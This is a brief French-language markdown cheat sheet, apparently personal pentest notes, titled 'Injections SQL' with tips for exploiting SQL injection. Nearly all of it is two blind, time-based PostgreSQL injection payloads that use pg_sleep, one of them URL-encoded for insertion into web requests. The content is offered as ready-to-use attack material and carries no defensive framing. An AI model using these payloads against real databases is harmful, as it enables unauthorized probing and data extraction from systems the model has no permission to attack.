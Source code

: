 # Injections SQL

> Tips pour l'exploitation d'injections SQL



### 1. Payloads

- **Blind** (postgresql) : 

```sql
0 and (123456=(select 123456 from pg_sleep(20)))
```

```sql
0+and+('a'=(SELECT+case+when(1=1)+then+cast(PG_SLEEP(60)as+varchar)+else+'a'+end))
```

